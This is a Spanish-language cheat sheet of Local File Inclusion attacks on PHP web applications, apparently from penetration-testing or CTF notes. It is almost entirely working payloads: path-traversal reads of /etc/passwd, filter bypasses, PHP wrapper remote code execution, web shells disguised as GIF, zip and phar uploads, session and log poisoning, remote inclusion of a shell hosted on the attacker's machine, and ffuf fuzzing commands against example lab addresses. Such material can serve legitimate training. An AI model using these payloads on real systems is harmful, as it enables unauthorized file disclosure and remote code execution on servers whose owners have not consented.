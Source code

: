 ```yaml
---
description: >-
  Un LFI (Local File Inclusion) es una vulnerabilidad de seguridad común en
  aplicaciones web que permite a un atacante incluir y ejecutar archivos locales
  en un servidor web.
---
```


# LFI (Local File Inclusion)

### LFI Basicos

* LFI basico\
  /index.php?language=/etc/passwd
* LFI con path traversal\
  /index.php?language=../../../../etc/passwd
* LFI con prefijo\
  /index.php?language=/../../../etc/passwd
* LFI dentro de una ruta\
  /index.php?language=./languages/../../../../etc/passwd

### LFI Bypasses

* Bypass basico con path traversal filter\
  /index.php?language=....//....//....//....//etc/passwd\
  /index.php?language=languages//....//....//....//....//....//flag.txt
* Bypass filters con URL encoding\
  /index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
* Bypass con null byte\
  /index.php?language=../../../../etc/passwd%00
* Leer PHP con base64 filter\
  /index.php?language=php://filter/read=convert.base64-encode/resource=archivo\_php

### RCE (Remote Code Execution)

#### PHP Wrappers

* RCE con data wrapper\
  /index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D\&cmd=id
* RCE con input wrapper

```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

* RCE con expect wrapper

```bash
 curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

#### RFI

* Host web shell

```bash
 echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>
```

* Incluir remote PHP web shell\
  /index.php?language=http://\<OUR\_IP>:\<LISTENING\_PORT>/shell.php\&cmd=comando

#### LFI + Upload

* Crear imagen maliciosa

```bash
 echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

* RCE con imagen maliciosa subida al servidor\
  /index.php?language=./profile\_images/shell.gif\&cmd=comando
* Crear archivo zip malicioso 'como jpg'

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

* RCE con archivo zip malicioso\
  /index.php?language=zip://shell.zip%23shell.php\&cmd=comando\
  Ejemplo: cat ../../../2f40d853e2d4768d87da1c81772bae0a.txt
* Crear archivo phar malicioso 'como jpg'

```bash
 php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

* RCE con archivo phar malicioso\
  /index.php?language=phar://./profile\_images/shell.jpg%2Fshell.txt\&cmd=id

#### Log Poisoning

* Leer PHP session parameters\
  /index.php?language=/var/lib/php/sessions/sess\_PHPSESSID
* Poison PHP session con web shell\
  /index.php?language=%3C%3Fphp%20system%28%24\_GET%5B%22cmd%22%5D%29%3B%3F%3E
* RCE a través de poisoned PHP session\
  /index.php?language=/var/lib/php/sessions/sess\_PHPSESSID\&cmd=id
* Poison server log

```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>' 
```

* RCE a través de un poisoned PHP session\
  /index.php?language=/var/log/apache2/access.log\&cmd=id
* Fuzz page parameters

```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs <tamaño_de_la_respuesta>
# Ejemplo
ffuf -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://138.68.163.188:30645?FUZZ=value' -fs 2309
```

* Fuzz LFI payloads

```bash
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs <tamaño_de_la_respuesta>
# Ejemplo
ffuf -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://138.68.163.188:30645/index.php?view=FUZZ' -fs 1935 # El parametro -fs sirve para que muestre lo diferente que el tamaño de respuesta
http://138.68.163.188:30645/index.php?view=../../../../../../../../../../../../../../../../../../flag.txt
```

* Fuzz webroot path

```bash
 ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs <tamaño_de_la_respuesta>
```

* Fuzz server configurations

```bash
 ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs <tamaño_de_la_respuesta>
```
